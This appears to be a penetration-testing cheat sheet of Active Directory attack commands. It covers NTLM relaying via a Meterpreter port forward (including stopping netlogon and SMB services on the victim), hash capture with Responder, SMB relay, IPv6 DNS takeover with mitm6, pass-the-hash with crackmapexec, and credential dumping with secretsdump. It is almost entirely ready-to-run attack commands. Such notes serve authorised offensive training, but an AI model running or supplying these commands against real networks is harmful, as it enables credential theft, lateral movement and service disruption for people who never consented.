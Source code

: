 # Remote NTLM Relaying via Meterpreter (Port Forwarding)
- On the victim machine
```powershell
sc stop netlogon
sc stop lanmanserver
sc config lanmanserver start= disabled
sc stop lanmanworkstation
sc config lanmanworkstation start= disabled
```
- In the Meterpreter session
```powershell
portfwd add -R -L 0.0.0.0 -l 445 -p 445
```
- On ntlmrelayx
```powershell
ntlmrelayx.py -t smb://10.200.69.30 -smb2support
```
# Capturing hashes using RESPONDER
```bash
 sudo responder -I tun0 -dwPv
```
# SMB Relay 
> SMB signing must be disabled
Scan host without smb signing
```bash
nmap --script=smb2-security-mode.nse -p445 192.168.107.186 -Pn
```
- Turn off smb and http from **Responder.conf** file
- Run Responder
```bash
sudo responder -I tun0 -rdw -v
```
- Setup another tool `ntlmrelayx.py`
```bash
ntlmrelayx.py -tf <target file> -smb2support
```
# IPv6 DNS Takeover via mitm6 & ntlmrelayx
- Set up ntlmrelayx.
```bash
ntlmrelayx.py -6 -t ldaps://<target IP> -wh fakepad.marvel.local -l lootme
```
- Setup MITM6.
```bash
sudo mitm6 -d <domain name>
```
On successful it will create a lootme folder in the local machine with a bunch of information.

# Pass Attacks
- Using **Crackmapexec smb**
```bash
crackmapexec smb xxx.xxx.xxx.0/24 -u <uname> -d <domain> -p <password>

crackmapexec smb xxx.xxx.xxx.0/24 -u <uname> -d <domain> -H <hash> --local-auth
```
# Dumping and Cracking hashes
- using **secretsdump**
```bash
secretsdump.py <domain>/<user>:<password>@<target IP>

```